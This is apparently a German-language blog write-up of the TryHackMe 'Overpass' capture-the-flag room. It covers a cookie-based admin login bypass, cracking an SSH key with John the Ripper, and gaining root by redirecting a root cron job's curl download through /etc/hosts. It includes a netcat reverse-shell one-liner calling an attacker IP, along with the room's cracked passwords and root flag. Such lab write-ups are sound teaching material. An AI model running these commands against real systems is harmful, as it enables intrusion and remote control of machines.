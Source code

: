 ```yaml
---
layout: post
title:  "THM: Overpass"
date:   2023-09-19 07:37:00 +0200
categories: ctf writeup
author: d33pjs
---
```


Das zweite CTF welches ich auf TryHackMe getestet habe, war "Overpass". Irgendwas mit Studenten und einem Passwortmanager der alles in Rot47 verschlüsselt. War eigentlich ganz nice...

Trotzdem hier das WriteUp.

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

![beginning](/assets/overpass/overpass.png)

# Step 1: nmap

`nmap -A <ip>`

Immer zu erst nmap... raus gekommen ist: Standard 80/tcp + 22/tcp offen - sonst nix

# Step 2: dirb

`dirb http://<ip>`

Angrifffläche ist hier wohl der Webserver. Also dirb mit default Wordlist. Auffällig war eigentlich nur das Verzeichnis `admin`, der Rest (`downloads`, `\` etc..) gehörte zum Webauftritt für den Overpass Passwortmanager. Sourcecode sowie diverse Builds konnte man im Downloadbereich finden.

Erst dachte ich auch, es hätte viel mehr mit dem Passwortmanager zu tun (irgendwelche Verbindungen per SSH/API... oder hardcoded credentials). 

# Step 3: admin

Beim Adminlogin hatte ich erst angefangen mit ZAP und dem Fuzzer einen Wordlistangriff zu starten (aber natürlich ist mir Java abgeraucht... und eigentlich ist das an der Stelle irgendwie cheaten, find ich). 

Ehrlicherweise habe ich dann erst durch einen WriteUp einen guten Tipp bekommen. Nämlich einen leeren `SessionToken` Cookie setzen. Ganz einfach über die Browserkonsole (Webdev Tools).

![cookiesset](/assets/overpass/overpass_login_admin.png)

Danach werden wir mit einem privaten SSH Key belohnt. Weil James immer sein Passwort vergisst. Man, James...

![cookiesset](/assets/overpass/overpass_afterlogin.png)

... allerdings, war er "Encrypted" (also 'n Passwort drauf, das ich nicht kenne...)

Aber warum gibt man James ein Passwort für seinen SSH Key, obwohl er immer wieder Passwörter vergisst? Und er die sogar lieber mit einem PostIt an den Monitor hängen möchte?
![butwhy](/assets/overpass/why-huh.gif)

# Step 5: John Wick?

... nein, John... The Ripper.

Der hilft mir (hoffentlich) das Passwort für den SSH Key raus zu bekommen. Erst muss der Key aber ins richtige John-Format :-). Dabei hilft `ssh2john` (n Pythonscript das unter Kali eigentlich vorhanden sein sollte).

- `ssh2john overpass_ssh_user_key_james.priv > overpass_ssh_user_key_james.john` dann...
- `john --wordlist=/usr/share/wordlists/rockyou.txt overpass_ssh_user_key_james.john`

Und wenn er dann sein Bleistifftding durchgezogen hat, fällt das Passwort `james13` raus. Man, James...

![johnssh](/assets/overpass/overpass_john_ssh.png)

# Step 6: First Flag

Nach dem Login (`ssh james@10.10.134.214 -i overpass_ssh_user_key_james.priv`) dann die first flag: `user.txt`

![sshsuccessfull](/assets/overpass/overpass_ssh_successfull.png)

![firstflag](/assets/overpass/overpass_firstflag.png)

# Step 7: How to (not) get root

Wie komme ich jetzt an die root flag?

### Setuid?

![setuid](/assets/overpass/overpass_suid.png)

Nope...

### Passwortmanager?

Hat der User vielleicht seinen eigenen Passwortmanager, Overpass, im Einsatz?

Jaaaa.... but:

![jamespw](/assets/overpass/overpass_system_pw_mgmt.png)

... jetzt hab ich zwar das Passwort des Users James `saydrawnlyingpicture`, aber das hilft mir leider nicht weiter.

![susudofailed](/assets/overpass/overpass_su_sudo_failed.png)

(Ich würd James auch keine Root Rechte geben, wenn der ständig sein Passwort vergisst)

# Step 8: How to GET root

### Crontab

Zufällig hab ich in die Crontab geschaut (war zumindest in dem Moment nicht mein "best gues")... und siehe da? Komische Dinge:

![crontab](/assets/overpass/overpass_crontab.png)

Curl lädt irgendwo ein Shell Script herunter? Und führt das auch noch direkt aus? ALS ROOT?? Wow... Hat bestimmt James eingerichtet.

### Hosts

Kinder, deswegen muss man jede noch so kleine Datei auf einem Linux ansehen, denn, wieder nur durch ein WriteUp, wurde ich auf die `/etc/hosts` hingewiesen. Und da fällt es einem dann wie Schuppen von den Augen:

![hosts](/assets/overpass/overpass_hosts.png)

Zur Erklärung, in dem Screenshot ist schon die Hosts Datei editiert. Der Host stand eigentlich auf 127.0.0.1

Wir könnten die Hosts ändern und die URL aus der Crontab (`overpass.thm/downloads/src/buildscript.sh`) auf einen, durch uns kontrollierten Webserver, schicken.

### build buildscript

Nach einigen Fehlversuchen, weil irgendeine Schrottversion auf dem System liegt, bin ich mit folgender Idee zum Ziel gekommen (steht sogar so in der Manpage von `nc`):

`echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 10.9.113.208 4242 >/tmp/f'`

![building_buildscript](/assets/overpass/overpass_build_buildscript_listening.png)

Ab damit in ein `buildscript.sh`, dann mit python noch einen schnellen HTTP Server starten: `sudo python3 -m http.server 80`. Da `nc` eine Verbindung zur 10.9.113.208 aufbauen möchte, müssen wir dort (da läuft auch der python http.server) noch ein `nc -lnvp 4242` starten. Dann ist erst Mal warten angesagt. 

![webserver](/assets/overpass/overpass_serving_http_buildscript.png)

In dem Screenshot sind jetzt schon ein paar Versuche drin. Der Cronjob wird nämlich, wie man oben erkennen kann, jede Minute ausgeführt.

Nach dem der Connect auf unseren Angreifer-nc ausgeführt wurde, haben wir eine Shell. Da der Cronjob von root ausgeführt wurde, sogar eine Root Shell. Also kommen wir dort an die letzte Flag.

# Step 9: root flag

Siehe Screenshot... `thm{7f336f8c359dbac18d54fdd64ea753bb}` it is...


